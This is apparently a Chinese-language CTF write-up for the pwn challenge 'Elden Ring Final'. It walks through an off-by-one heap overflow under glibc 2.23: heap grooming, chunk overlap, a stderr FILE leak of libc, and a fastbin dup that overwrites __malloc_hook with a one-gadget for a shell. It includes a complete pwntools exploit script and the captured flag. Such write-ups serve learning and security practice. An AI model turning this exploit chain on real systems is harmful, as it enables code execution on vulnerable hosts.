


# Elden Ring Final

## 题目简述

程序管理 `page`、`note` 及独立分配的 `content`，存在对 `content` 的 off-by-one 堆溢出。目标环境使用 glibc 2.23，没有 tcache。利用链分为两段：先调整交错的堆布局，通过修改相邻 chunk 的 `size` 制造重叠，再用 unsorted bin 地址和部分指针覆盖把 chunk 分配到 `_IO_2_1_stderr_` 附近，伪造 `FILE` 状态泄露 libc；随后重复合并过程，fastbin dup 覆盖 `__malloc_hook` 为 one-gadget，触发分配得到 shell。

## 解题过程

### 调整结构体与内容块的物理布局

程序不仅为 `page`、`note` 结构体分配内存，还为每个 note 的内容单独分配内存。初始状态下，可控的 `content` 与不可直接写的结构体交错，off-by-one 难以稳定作用到希望修改的相邻 chunk：



`page` 和 `note` 结构体对应的用户区都是 `0x30` 大小。先创建多个 `0x28` 字节内容，使其实际 chunk size 同样为 `0x30`；释放若干 note 后，再申请不同大小的内容。新的 note 结构体会复用 fastbin 中的 `0x30` chunk，而不同尺寸的 content 从堆顶继续分配，于是多个可控 content 被整理到连续地址：



对应的堆风水序列是：

```python
for _ in range(5):
    add_note(0, 0x28, b"a")

for index in (1, 2, 3, 4):
    delete_note(0, index)

add_note(0, 0x18, b"6")
add_note(0, 0xF8, b"7")
add_note(0, 0x68, b"8")
add_note(0, 0x68, b"9")
add_note(0, 0x18, b"10")
```

### 合并 chunk 并泄露 stderr

释放编号 6 的 content 后，在其前一个 `0x18` 内容末尾多写一个字节 `0xe1`，把相邻 chunk 的 `size` 低字节改为 `0xe1`。随后释放相关 chunk，得到一个进入 unsorted bin 的合并块：

```python
delete_note(0, 6)
add_note(0, 0x18, b"a" * 0x18 + b"\xe1")
delete_note(0, 7)
delete_note(0, 8)
```

第一个 unsorted-bin chunk 的 `fd`、`bk` 都指向 `main_arena`。在目标 glibc 中，`main_arena` 与 `_IO_2_1_stderr_` 的高位相同；stderr 目标低位固定为 `0x5dd`，只剩一个半字节受 ASLR 影响。通过重叠 chunk，把 unsorted-bin 指针低字节部分覆盖到预先位于 fastbin 的 `fd`，再修改 size 使伪造位置能作为 `0x70` fastbin chunk 返回。官方脚本本地调试使用候选低两字节 `\xdd\x45`，远程失败时重新连接爆破未知半字节。

获得指向 stderr 附近的 chunk 后，写入 `0xfbad1800` 及相邻指针字段，触发 `_IO_FILE` 输出路径泄露 libc 地址：

```python
add_note(0, 0xD8, b"b")
add_note(0, 0x18, b"a")
add_note(0, 0x18, b"\xdd\x45")
delete_note(0, 13)
add_note(0, 0x18, p64(0) * 3 + b"\x71")
add_note(0, 0x68, b"a")
add_note(
    0,
    0x68,
    b"a" * 0x33 + p64(0xFBAD1800) + p64(0) * 3 + b"\x58",
)
```

接收的地址不是 `_IO_2_1_stderr_` 本身，而是该对象内部偏移 `0x163` 处的指针值，因此 libc 基址应计算为：

```python
leak = u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
libc.address = leak - libc.sym["_IO_2_1_stderr_"] - 0x163
```

若只减一个本地调试得到的固定绝对偏移，远程 libc 布局或泄露位置变化时容易算错；按符号地址与对象内偏移分开计算更清楚。

### 覆盖 malloc_hook

得到 libc 基址后，在新 page 上重复相同的堆整理和 off-by-one 合并。第二次将 fastbin 链指向 `__malloc_hook-0x23`，这样下一次同尺寸分配的用户区恰好覆盖 hook：

```python
malloc_hook = libc.sym["__malloc_hook"]
one_gadget = libc.address + 0xF0897

add_note(1, 0x18, p64(malloc_hook - 0x23))
delete_note(1, 13)
add_note(0, 0x18, p64(0) * 3 + b"\x71")
add_note(0, 0x68, b"a")
add_note(0, 0x68, b"a" * 0x13 + p64(one_gadget))

add_page()  # 再次 malloc，触发 __malloc_hook
io.sendline(b"cat flag")
io.interactive()
```

one-gadget `0xf0897` 的约束是 `[rsp+0x70] == NULL`。若运行环境不满足，应测试同一 libc 中的其他候选，而不是盲目修改堆布局。

### 完整利用脚本

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

libc = ELF("./libc-2.23.so", checksec=False)
one_gadgets = [0xF0897, 0xEF9F4, 0x4525A, 0x45206]


def start():
    # 本地复现：return process("./vuln")
    # 远程复现：return remote("<host>", <port>)
    return process("./vuln")


def add_page():
    io.sendlineafter(b">", b"1")


def delete_page(page):
    io.sendlineafter(b">", b"2")
    io.sendlineafter(b">", str(page).encode())


def add_note(page, size, content):
    io.sendlineafter(b">", b"3")
    io.sendlineafter(b">", str(page).encode())
    io.sendlineafter(b">", str(size).encode())
    io.sendafter(b">", content)


def delete_note(page, note):
    io.sendlineafter(b">", b"4")
    io.sendlineafter(b">", str(page).encode())
    io.sendlineafter(b">", str(note).encode())


def prepare_overlap(page):
    for _ in range(5):
        add_note(page, 0x28, b"a")

    for index in (1, 2, 3, 4):
        delete_note(page, index)

    add_note(page, 0x18, b"6")
    add_note(page, 0xF8, b"7")
    add_note(page, 0x68, b"8")
    add_note(page, 0x68, b"9")
    add_note(page, 0x18, b"10")

    delete_note(page, 6)
    add_note(page, 0x18, b"a" * 0x18 + b"\xe1")
    delete_note(page, 7)
    delete_note(page, 8)


while True:
    io = start()
    try:
        prepare_overlap(0)
        add_note(0, 0xD8, b"b")
        add_note(0, 0x18, b"a")
        add_note(0, 0x18, b"\xdd\x45")
        delete_note(0, 13)
        add_note(0, 0x18, p64(0) * 3 + b"\x71")
        add_note(0, 0x68, b"a")
        add_note(
            0,
            0x68,
            b"a" * 0x33 + p64(0xFBAD1800) + p64(0) * 3 + b"\x58",
        )
        break
    except (EOFError, PwnlibException):
        io.close()

leak = u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
libc.address = leak - libc.sym["_IO_2_1_stderr_"] - 0x163
log.success("libc base: %#x", libc.address)

malloc_hook = libc.sym["__malloc_hook"]
one_gadget = libc.address + one_gadgets[0]

add_page()
prepare_overlap(1)
add_note(1, 0xD8, b"b")
add_note(1, 0x18, b"a")
add_note(1, 0x18, p64(malloc_hook - 0x23))
delete_note(1, 13)
add_note(0, 0x18, p64(0) * 3 + b"\x71")
add_note(0, 0x68, b"a")
add_note(0, 0x68, b"a" * 0x13 + p64(one_gadget))

add_page()
io.sendline(b"cat flag")
io.interactive()
```

官方截图中的一次成功输出为：

```text
flag{0abb24968908c08f2ddcd4355455d65a66e6db2d}
```

远程利用需要多次尝试，是因为对 stderr 目标所做的是部分地址覆盖，仍有一个随机半字节需要命中；这不是脚本无故不稳定。

## 方法总结

- 当“结构体 chunk”和“内容 chunk”交错时，应先利用相同 size class 的复用规律重新排布，再使用相邻溢出。
- off-by-one 的关键不是单独改一个字节，而是让伪造 `size` 触发可预测的 backward/forward consolidation，产生覆盖其他 bin 元数据的重叠块。
- unsorted bin 首块泄露 `main_arena`，结合部分指针覆盖可把分配目标导向 `_IO_2_1_stderr_`；伪造 `FILE` 标志后可获得 libc 泄露。
- 计算 libc 基址时应使用 `泄露值 - 符号偏移 - 对象内偏移`，并回查地址是否页对齐、是否落入映射范围。
- glibc 2.23 可用 fastbin dup 覆盖 `__malloc_hook`，但 one-gadget 的寄存器/栈约束必须单独验证；部分覆盖导致的概率失败应显式重试。
